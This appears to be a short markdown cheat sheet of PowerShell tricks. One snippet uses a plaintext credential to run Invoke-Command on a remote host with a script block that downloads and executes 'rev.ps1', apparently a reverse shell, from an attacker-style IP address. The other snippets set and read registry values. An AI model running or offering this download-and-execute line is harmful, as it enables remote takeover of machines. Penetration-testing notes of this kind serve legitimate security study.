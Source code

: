 # powershell tricks

## run powershell commands as another user with ps
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

## browse and edit registry

### set registry values
```powershell
Set-ItemProperty -Path "HKLM:\Software\ContosoCompany" -Name "NoOfEmployees" -Value 823
Get-ItemProperty -Path "HKLM:\Software\ContosoCompany"
```

### read registry values
can also change the powershell "directory" to the registry like "cd HKLM:\"
```powershell
cd HKLM:\SYSTEM\CurrentControlSet\Services\
```
